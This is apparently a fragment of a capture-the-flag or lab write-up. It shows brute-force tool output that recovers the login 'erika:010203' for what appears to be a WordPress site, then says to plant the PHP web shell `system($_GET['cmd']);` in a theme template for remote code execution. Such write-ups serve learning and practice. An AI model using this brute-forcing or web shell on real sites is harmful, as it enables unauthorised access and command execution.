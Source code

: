 ```
[SUCCESS] - erika / 010203                              
Trying erika / jordan1 Time: 00:00:23 <> (700 / 14345091)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: erika, Password: 010203
 

[+] Finished: Sat Aug  6 06:46:41 2022
[+] Requests Done: 839
[+] Cached Requests: 43
[+] Data Sent: 416.49 KB
[+] Data Received: 441.927 KB
[+] Memory used: 272.938 MB
[+] Elapsed time: 00:00:32
```

User:pass `erika:010203`

![](./attachments/Pasted%20image%2020220806125737.png)

Insert shell `system($_GET['cmd']);` into template like in the 'Remote Code Execution (RCE) via the Theme Editor' section.
